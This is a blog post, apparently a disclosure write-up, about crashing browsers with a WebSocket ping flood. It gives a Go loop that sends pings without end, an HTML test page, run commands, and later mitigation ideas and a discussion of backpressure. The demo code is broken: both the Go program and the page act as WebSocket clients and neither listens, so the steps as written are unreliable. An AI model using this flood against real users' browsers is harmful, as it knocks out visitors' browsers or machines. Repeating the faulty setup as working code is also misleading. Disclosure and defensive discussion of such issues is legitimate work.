 ```yaml
---
title: WebSockets Reversed Ping of Death
published: 2025-06-10
customPostAuthors: ["Rantouan Achmet"]
draft: false
lang: en
description: WebSockets Reversed Ping of Death
tags: ["Hacking", "Web", "Protocols", "Protocols: WebSockets", "Browsers"]
---
```


**Warning:** The following action may cause a visitor’s browser or even their computer to crash. This information is provided for educational purposes only. Use it responsibly.

I do not encourage or condone the misuse of this knowledge, and I disclaim any responsibility for any damage, disruption, or unintended consequences resulting from its use. Proceed at your own risk.

---

One of the first things someone learns in martial arts is that when you hold someone, that someone holds you too. If, for example, that someone falls on purpose while you’re holding them tightly, chances are you might fall too.

Even though there isn’t a special name for this idea, it can be found in Aiki martial arts principle, where the main point is that the opponent’s energy becomes a tool in your hands if you redirect it wisely.

When you write a program that handles WebSocket connections, one of the main security concerns is preventing a client from flooding you with messages or pings with bad intentions.

But what if I told you that, on the other side, no browser checks if someone attacks with abnormal load of WebSocket messages or pings in bad faith — and just ends up crashing?

---

You can easily test this yourself:

1. Bookmark this page first, so you can return after a crash.

2. Write a Go program that opens a WebSocket connection and continuously sends pings in a highly repetitive loop:

```go
// main.go
package main

import (
    "log"
    "github.com/gorilla/websocket"
)

func main() {
    url := "ws://localhost:3001"
    conn, _, err := websocket.DefaultDialer.Dial(url, nil)
    if err != nil {
        log.Fatal("Error connecting to WebSocket:", err)
    }
    defer conn.Close()

    for {
        err := conn.WriteMessage(websocket.PingMessage, nil)
        if err != nil {
            log.Println("Error sending ping:", err)
            return
        }
    }
}
```

3. Write an HTML page that connects to this WebSocket connection:

```html
<!-- index.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>WebSocket Reversed Ping of Death</title>
</head>
<body>
    <h1>WebSocket Reversed Ping of Death</h1>

    <script>
        const socket = new WebSocket("ws://localhost:3001/ws");

        socket.onerror = (error) => {
            console.error("WebSocket error:", error);
        };

        socket.onopen = () => {
            console.log("WebSocket connected.");
        };

        socket.onclose = () => {
            console.log("WebSocket closed.");
        };

        socket.onmessage = (event) => {
            console.log("WebSocket received:", event.data);
        };
    </script>
</body>
</html>
```

4. Run the Go program:

```bash
go mod init main
go mod tidy
go run main.go
```

5. Start a simple HTTP server to serve `index.html`:
   (If port 3002 is not available, pick another one, e.g., 3003…)

```bash
python3 -m http.server 3002
```

6. Open the page in your browser. For example:
   (If port 3002 was not available, use the other port you picked)

```
http://localhost:3002
```

---

Of course, the reason I’m writing these lines is not to enable script kiddies to annoy others, but to highlight a problem and propose a solution. Just to clarify, I am publishing this article only after having contacted major browser developers and submitted bug reports to ensure better client-side security checks for everyone.

Until all browsers implement a check, you can take care of yourself, by:

* If visiting a site crashed your computer, be aware that it’s possible and that it may be just this method described above used. Don’t panic and don’t believe everything.
* If you develop an application that depends on a third-party WebSocket, then make sure that you really trust the provider of it.

---

It’s the browsers that need to protect you from such a problem since the WebSocket API of them (which is kind of the same across all of them) doesn’t expose you the pings. This means that even if you write code that may find abnormal load of messages — good, perfect — but… you will never be able to see an abnormal load of pings, as you don’t get them at all like they don’t exist.

Using a custom proxy made to bypass and check the connection could be a real solution, as a proxy being a whole program, freed from the limitations of browsers, could detect abnormal loads of everything, including pings and kill the connection if needed.

I don’t provide the code to such a thing because this is simply opening other problems like what if someone abuses your proxy, so it’s a solution that needs to be implemented carefully and maybe customized.

---

Back to browsers, it’s worth noting that there are actually two other ways to have a WebSocket connection that claim to try to solve such problems. Well, they don’t talk exactly about the problem above (especially with the ping case), but they talk about almost the same and they call it **“backpressure”**. From Mozilla Developer Network:

> **Backpressure**
> An important concept in streams is backpressure — this is the process by which a single stream or a pipe chain regulates the speed of reading/writing. When a stream later in the chain is still busy and isn't yet ready to accept more chunks, it sends a signal backwards through the chain to tell earlier transform streams (or the original source) to slow down delivery so that you don't end up with a bottleneck anywhere.

[https://developer.mozilla.org/en-US/docs/Web/API/Streams\_API/Concepts#backpressure](https://developer.mozilla.org/en-US/docs/Web/API/Streams_API/Concepts#backpressure)

Those two other ways are **WebTransport API** and **Streams API**. Both are great but very fresh, in contrast to the WebSocket API which has been around for more than a decade. They are so fresh that the first is not supported by Safari and the second is not supported by Firefox. And even the browsers that support one or the other do so only in very recent versions (and experimentally, I would guess).
